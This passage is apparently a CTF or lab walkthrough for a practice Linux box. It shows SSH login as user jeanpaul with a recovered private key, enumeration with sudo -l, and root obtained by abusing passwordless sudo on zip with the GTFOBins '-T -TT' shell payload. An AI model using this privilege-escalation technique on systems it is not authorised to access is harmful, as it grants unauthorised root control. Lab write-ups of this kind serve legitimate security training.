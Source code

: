 <aside>
💡 We cant run shadow but this is a good point.

</aside>

By observation, we find that jp was jeanpaul and he was a user.

```jsx
┌──(root㉿wahaj)-[/mnt/dev]
└─# ssh -i id_rsa jeanpaul@172.16.2.130
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun  2 05:25:21 2021 from 192.168.10.31
jeanpaul@dev:~$
```

<aside>
💡 ****************SSH WORKS NOW****************

</aside>

Checking Privilegs

```jsx
jeanpaul@dev:~$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
```

We only have zip privileges as sudo.

<aside>
💡 A great website for checking escalations is gtfo bin, lets check that
[https://gtfobins.github.io/](https://gtfobins.github.io/)

</aside>

And with the sudo payload, we are in

```jsx
jeanpaul@dev:~$ TF=$(mktemp -u)
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

and we are done

![Untitled](walkthrough_resources/Untitled%207.png)